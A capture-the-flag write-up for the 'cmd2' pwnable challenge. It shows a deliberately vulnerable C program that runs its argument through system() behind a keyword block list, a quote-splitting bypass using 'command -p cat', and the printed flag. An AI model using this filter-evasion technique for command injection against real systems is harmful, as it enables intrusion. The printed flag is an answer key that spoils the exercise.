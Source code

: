 # cmd2
slopey112 - 02/15/19

This is an upgrade from its prequel, [cmd1](/pwnable/toddler/cmd1.md). Let's take a look at its source code first, which is given.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

There's two interesting things going on here. The first is the `filter` command. It seems that it is significantly stricter, stopping us from changing any environmental variables. The second interesting thing is the `delete-env` command, which is executed upon startup. This is especially troublesome, because the command, as its name implies, deletes all environmental variables including the `PATH` variable.

Previously, we could work around the lack of a `PATH` definition by simply calling the directory of `cat`, through `/bin/cat flag`. However, that won't work here: `/` is under the filter.

Therefore, the obvious solution was to look for a built-in command that could accomplish the same thing. Luckily, such a command exists: `command`.

```
command [-pVv] command [arg ...]
              Run  command  with  args suppressing the normal shell function lookup. Only builtin
              commands or commands found in the PATH are executed.  If the -p  option  is  given,
              the  search  for  command  is  performed  using  a  default  value for PATH that is
              guaranteed to find all of the standard utilities.  If either the -V or -v option is
              supplied,  a description of command is printed.  The -v option causes a single word
              indicating the command or filename used to invoke command to be displayed;  the  -V
              option  produces  a  more verbose description.  If the -V or -v option is supplied,
              the exit status is 0 if command was found, and 1 if  not.   If  neither  option  is
              supplied  and an error occurred or command cannot be found, the exit status is 127.
              Otherwise, the exit status of the command builtin is the exit status of command.
```

`command` looks up a shell command, and either executes it or prints its description. Here, the -p flag allows us to look for a specific shell command and execute it, even if such a command isn't on the `PATH`.

Once we make that observation, everything else follows. However, there is still one more complication: the quotes. The obvious solution right now is simple:
```bash
./cmd2 "command -p cat flag"
```
However, this won't work, as flag is filtered. The workaround is surprisingly simple (Be careful when escaping quotes).
```bash
./cmd2 "command -p cat \"f\"\"l\"\"a\"\"g\""
```
Once we launch that, the answer is given immediately.
```
FuN_w1th_5h3ll_v4riabl3s_haha
```
